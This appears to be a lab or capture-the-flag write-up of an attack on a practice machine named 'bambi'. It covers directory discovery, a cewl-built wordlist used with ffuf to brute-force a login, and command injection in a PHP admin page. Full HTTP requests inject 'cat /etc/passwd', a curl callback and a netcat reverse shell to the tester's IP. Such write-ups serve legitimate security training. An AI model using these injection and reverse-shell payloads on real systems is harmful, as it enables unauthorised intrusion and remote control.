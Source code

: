 #### Box Start
- Began `nmap`, `gobuster` and through `gobuster` identified the `/dev/` directory exposed:
![[Pasted image 20241202193950.png]]

--------------
#### Credential Fuzzing and Login
- With usernames found on the machine `Sam, Devon, Johnny` utilized `cewl` to generate a password list against the website due to the website being strictly focused on a specific music hobby.
- Utilized `cewl` command below to create a custom password list with words taken off the `http://bambi` website
```bash
cewl --write passwords.txt http://bambi
```
once `passwords.txt` was created utilized `ffuf` with valid usernames to identify `login` credentials

```bash
ffuf -w passwords.txt -u http://bambi/dev/index.php -X POST -d 'username=Sam&password=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' 
```
was able to identify that the size of this was an outlier
![[Pasted image 20241110021818.png]]
with the credentials  `SAM:ANGELES` was able to login
![[Pasted image 20241110022438.png]]

-----------

#### RCE Identification

- After logging in we get brought to the `SYSTEM INFO PAGE` this allows us to check to fields - `SYSTEM INFORMATION` & `TRACK LISTING` once they're checked and hit submit we look at `BURPSUITE` and identify `2` parameters

The parameters `sys_info=` and `sys_tracks=` look like parameters that could be exploited.
![[Pasted image 20241111113848.png]]
originally I tried to replace the `-h` in `sys_info` and the file path in `sys_tracks` however - even after changing them the response still shows the default options, this could potentially mean that they are hard coded into the web page
![[Pasted image 20241111114417.png]]

##### Vulnerable field testing
In order to exploit this we end up identifying `LCE` by appending `;` to the `sys_tracks` field
```http
POST /dev/admin.php HTTP/1.1

Host: bambi
Content-Length: 63
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://bambi
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bambi/dev/admin.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=a3b6945256d08ae6372daaaca7b8c375
Connection: keep-alive

sys_info=-h&sys_tracks=%2Fvar%2Ftmp%2Ftracks%2F;cat+/etc/passwd
```
this returns `/etc/passwd`
![[Pasted image 20241111120056.png]]
original payload o begin testing:
```bash
curl http://192.168.45.222:80/bambi/
```
full encoded in burpsuite:
```http
POST /dev/admin.php HTTP/1.1
Host: bambi
Content-Length: 88
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://bambi
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bambi/dev/admin.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=a3b6945256d08ae6372daaaca7b8c375
Connection: keep-alive

sys_info=-h&sys_tracks=%2Fvar%2Ftmp%2Ftracks%2F;curl+http%3a//192.168.45.222%3a80/bambi/
```
the response displays no indication that it worked
![[Pasted image 20241111115711.png]]
however if we check the `/var/log/apache2/access.log` we can see that the `curl` worked
```bash
┌──(root💀gobots)-[11Nov2024 16:35:50]-[/var/log/apache2]
└─# less /var/log/apache2/access.log
```
`curl` hitting our 
![[Pasted image 20241111120007.png]]

-------

#### Exploiting RCE

can see that `nc` exists on the system with `which nc` - URL encoded of course
![[Pasted image 20241111120243.png]]
setting up `nc` listener on `kali`
```bash
┌──(root💀gobots)-[11Nov2024 17:04:20]-[/var/log/apache2]
└─# nc -lvnp 1337                   
listening on [any] 1337 ...
```
creating payload to get a reverse shell:
```bash
/bin/nc 192.168.45.222 1337 -e /bin/bash
```
full burpsuite payload with url encoding `CTRL+U`
```http
POST /dev/admin.php HTTP/1.1
Host: bambi
Content-Length: 88
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://bambi
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bambi/dev/admin.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=a3b6945256d08ae6372daaaca7b8c375
Connection: keep-alive

sys_info=-h&sys_tracks=%2Fvar%2Ftmp%2Ftracks%2F;/bin/nc+192.168.45.222+1337+-e+/bin/bash
```
![[Pasted image 20241111121110.png]]